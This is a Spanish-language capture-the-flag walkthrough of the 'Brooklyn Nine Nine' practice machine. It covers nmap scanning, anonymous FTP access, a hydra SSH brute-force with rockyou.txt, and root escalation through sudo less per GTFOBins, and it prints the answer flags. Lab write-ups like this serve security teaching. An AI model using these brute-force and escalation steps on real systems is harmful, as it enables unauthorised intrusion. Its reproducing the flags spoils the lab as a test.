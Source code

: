# Brooklyn Nine Nine

## Escaneo de puertos

Lanzamos un mapeo de puertos y servicios con `nmap`:

```bash
sudo nmap -sV -T4 -p- 10.10.93.36
```

Los puertos abiertos son:

* 21: FTP (vsftpd)
* 22: SSH (OpenSSH)
* 80: HTTP (Apache httpd)

![](images/image.png)

## Acceso por FTP

Nos conectamos al FTP como `anonymous` y encontramos una nota para Jake:

![](images/image-1.png)

Descargamos el archivo:

```bash
get note_to_jake.txt
```

![](images/image-2.png)

Revisamos el contenido, que sugiere credenciales débiles para Jake:

![](images/image-3.png)

## Ataque de fuerza bruta

Ejecutamos `hydra` contra SSH con el usuario `jake`:

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.93.36
```

La contraseña es **987654321**.

![](images/image-4.png)

## Acceso por SSH

Accedemos como `jake`:

```bash
ssh jake@10.10.93.36
```

![](images/image-5.png)

Inspeccionamos los usuarios y vemos que `holt` tiene la flag:

![](images/image-6.png)

```
ee11cbb19052e40b07aac0ca060c23ee
```

## Escalada de privilegios

Comprobamos los comandos sudo permitidos:

```bash
sudo -l
```

![](images/image-7.png)

Vemos que podemos usar `less` sin contraseña. Según GTFObins, `less` puede ejecutar un shell.

![](images/image-8.png)

Obtenemos la flag de root:

```bash
sudo less /root/root.txt
```

![](images/image-9.png)

```
63a9f0ea7bb98050796b649e85481845
```
